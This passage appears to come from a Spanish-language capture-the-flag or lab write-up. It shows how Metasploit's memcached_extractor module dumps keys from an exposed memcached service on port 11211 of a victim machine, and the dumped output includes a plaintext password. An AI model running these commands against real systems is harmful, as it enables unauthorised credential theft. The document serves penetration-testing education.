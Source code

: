 Vemos que el puerto `11211` esta utilizando `memcached` con el cual se puede extraer informacion del puerto `4444`, si nos vamos a `metasploit` y buscamos dicho puerto, veremos que efectivamente puede ser vulnerable a ello.

```shell
msfconsole -q
search memcached
```

Info:

```
Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/gather/memcached_extractor               .                normal  No     Memcached Extractor
   1  auxiliary/dos/misc/memcached                       .                normal  No     Memcached Remote Denial of Service
   2  auxiliary/scanner/memcached/memcached_amp          2018-02-27       normal  No     Memcached Stats Amplification Scanner
   3  auxiliary/scanner/memcached/memcached_udp_version  2003-07-23       normal  No     Memcached UDP Version Scanner


Interact with a module by name or index. For example info 3, use 3 or use auxiliary/scanner/memcached/memcached_udp_version
```

Vamos a seleccionar el numero `0`.

```shell
use auxiliary/gather/memcached_extractor
```

Ahora vamos a establecerle la `IP` de la maquina victima e iniciarlo.

```shell
set RHOSTS <IP>
run
```

Info:

```
[+] 192.168.5.41:11211    - Found 4 keys

Keys/Values Found for 192.168.5.41:11211
========================================

 Key            Value
 ---            -----
 conf_location  "VALUE conf_location 0 21\r\n/etc/memecacched.conf\r\nEND\r\n"
 domain         "VALUE domain 0 8\r\ncrazymed\r\nEND\r\n"
 log            "VALUE log 0 18\r\npassword: cr4zyM3d\r\nEND\r\n"
 server         "VALUE server 0 9\r\n127.0.0.1\r\nEND\r\n"

[+] 192.168.5.41:11211    - memcached loot stored at /root/.msf4/loot/20250617033508_default_192.168.5.41_memcached.dump_229509.txt
[*] 192.168.5.41:11211    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
